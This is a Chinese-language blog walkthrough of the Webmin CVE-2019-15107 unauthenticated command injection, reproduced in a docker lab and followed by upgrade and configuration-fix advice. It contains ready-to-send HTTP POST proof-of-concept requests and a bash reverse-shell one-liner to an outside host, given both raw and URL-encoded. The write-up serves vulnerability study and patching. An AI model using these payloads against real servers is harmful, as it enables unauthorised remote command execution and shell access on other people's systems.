








# Webmin 远程命令执行漏洞（CVE-2019-15107） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283285.html`](https://www.cnblogs.com/NoCirc1e/p/16283285.html)

Webmin 是一个用于管理类 Unix 系统的管理配置工具，具有 Web 页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

参考链接：

*   [`www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html`](https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html)
*   [`www.exploit-db.com/exploits/47230`](https://www.exploit-db.com/exploits/47230)
*   [`blog.firosolutions.com/exploits/webmin/`](https://blog.firosolutions.com/exploits/webmin/)

## 漏洞概述

*   漏洞编号：CVE-2019-15107
*   漏洞描述：该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码
*   该漏洞由于 password_change.cgi 文件在重置密码功能中存在一个代码执行漏洞，该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码
*   漏洞利用条件：版本满足要求，且服务器的配置文件允许修改密码时，在不知道 webmin 的用户和密码条件下，可以任意执行代码

## 影响版本

Webmin <= 1.920

## 环境搭建

执行如下命令，启动 webmin 1.910：

```
docker-compose up -d
```



执行完成后，访问`https://your-ip:10000`，忽略证书后即可看到 webmin 的登录页面。



## 漏洞复现

docker ps -a 查看当前启动的容器信息
使用 docker 进入容器进行验证 使用条件

```
docker exec -it 6d /bin/bash
```

这里修改一下 root 密码， 这样就能进 webmin 中进行配置修改， 使用命令
passwd



利用修改的密码登录


登录之后点击 authentication 修改密码重置配置



在容器中使用
cat /etc/webmin/miniserv.conf 确认密码策略正确



访问/password_change.cgi 链接，抓包注入命令

POC

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|ls&new1=test2&new2=test2
```



上面 poc 需要注意：ip 改成自己的 ip，然后 user 参数不能是系统账户，后面接执行的命令。

## 反弹 Shell

```
bash -c "bash -i >& /dev/tcp/192.168.10.129/9999 0>&1"
```

对上面 bash 进行 url 编码


发送：

```
POST /password_change.cgi HTTP/1.1
Content-Length: 139
Host: 192.168.10.128:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://192.168.10.128:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 139

user=rootxx&pam=&expired=2&old=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.10.129%2F9999%200%3E%261%22&new1=test2&new2=test2
```



## 修复建议

目前 Webmin 官方已发布最新版本 Webmin 1.940 修复了该漏洞，请受影响的用户尽快升级至最新版本：

下载链接：[`webmin.com/download.html`](http://webmin.com/download.html)

临时解决方案：

1.900 到 1.920 版本的用户，编辑 Webmin 配置文件：/etc/webmin/miniserv.conf，注释或删除“passwd_mode=”行，然后运行/etc/webmin/restart 重启服务命令。

注：修复漏洞前请将资料[备份](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.huaweicloud.com%2Fproduct%2Fcsbs.html)，并进行充分测试。